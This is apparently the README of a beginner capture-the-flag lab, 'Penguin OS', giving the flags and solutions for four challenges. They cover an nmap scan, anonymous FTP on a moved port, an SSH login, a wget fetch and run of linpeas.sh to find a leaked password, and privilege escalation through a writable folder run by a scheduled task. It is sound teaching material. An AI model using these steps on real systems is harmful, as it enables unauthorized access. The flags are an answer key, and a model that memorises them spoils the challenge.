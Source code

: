 # Challenge

**Multi Challenge:** `True`
**Ports Open:** 20,22,2121

---

# Challenge 1

**Name:** Penguin OS: For the FTP

**Category:** Computers and Networks

**Difficulty:** Easy

**Flag:** `UWA{fTpLipP3r5}`

## Description

Mumble has made a *Penguin OS* server that all penguins can use. He placed the shared credentials for all penguins on a **FTP server** that has **Anonymous login enabled**. However, Mumble does not want pesky humans to be able to connect and corrupt his glorious server. So he did something sneaky **changed the port of the FTP server**.

Can you find the password for the the shared account on the FTP server?

## Hint

You will need to use `nmap` to do a port scan. Use the `-Pn` option if you are having issues doing the port scan.

## Solution

Run `nmap` to scan the server.

```
nmap -sC -Pn 10.10.10.10
```

Connect to the FTP server.

```
ftp -P 2121 10.10.10.10
```

Login using the `Anonymous` account and download the `note-to-flipper-pals.txt` file by using the FTP `get` command.

---

# Challenge 2

**Name:** Penguin OS: Sea Shells

**Category:** Computers and Networks

**Difficulty:** Easy

**Flag:** `UWA{sEcure_S3a_sH3lLs_bI_tH3_sEa_sH04e}`

## Description

Use `ssh` to gain access to the server. The flag is located at `/home/penguinusr/flag2.txt`.

## Solution

Legit just use `ssh` to connect to the server as `penguinusr`.

---

# Challenge 3

**Name:** Penguin OS: Peas in a Pod

**Category:** Computers and Networks

**Difficulty:** Medium

**Flag:** `UWA{d0Nt_pVt_s3Ns1TiV3_d4t4_iN_l000000g5}`

## Description

Now that you have access to the server, use the [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) enumeration tool from [PEASS-ng](https://github.com/carlospolop/PEASS-ng) to see if you can find a *password* for the account named `alex`.

## Hint

The task for this challenge is to figure out a way to get `linpeas.sh` onto the server. Maybe there is a *tool* for downloading files that is on the Linux server?

## Solution

Students can use `wget` to download linpeas. However, to download the file they need to be in the `/tmp` folder to have write access.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Once the file is downloaded, first set it to be executable `chmod +x linpeas.sh` and execute it. `linpeas.sh` will find the password for the account `alex` in a log file in `/var/log/supervisor/fixpasswords.log`.

---

# Challenge 4

**Name:** Penguin OS: Scheduled Hack

**Category:** Computers and Networks

**Difficulty:** Hard

**Flag:** `UWA{d0Nt_g0oF_y0_sCh3dUl3d_t4sK5}`

---

## Description

`mumble` left a passive aggressive note to `alex` that can be read at `/home/alex/note-to-alex.txt`.

*Try and figure out a way to execute commands as `mumble` and read the final flag at `/home/mumble/flag4.txt`.*

---

## Hint

The source code of the scheduled task is located at `/home/mumble/execute-scripts.sh`.

**`alex` can write files in `/opt/admin-scripts`!**

---

## Solution

As the note explains, there is a scheduled task that executes all script files in `/opt/admin-scripts` using the `mumble` account. This allows you to execute any commands as the `mumble` account!

For an example, the following script will print the flag and the output will be saved in `/opt/admin-scripts-output` folder.

```bash
#!/bin/bash

cat /home/mumble/flag4.txt
```

Set the file to executable and copy into `/opt/admin-scripts` and wait until the scheduled task is triggered.

---

## How to run locally

Run the `bash` script in `challenge` named `start_docker.sh`.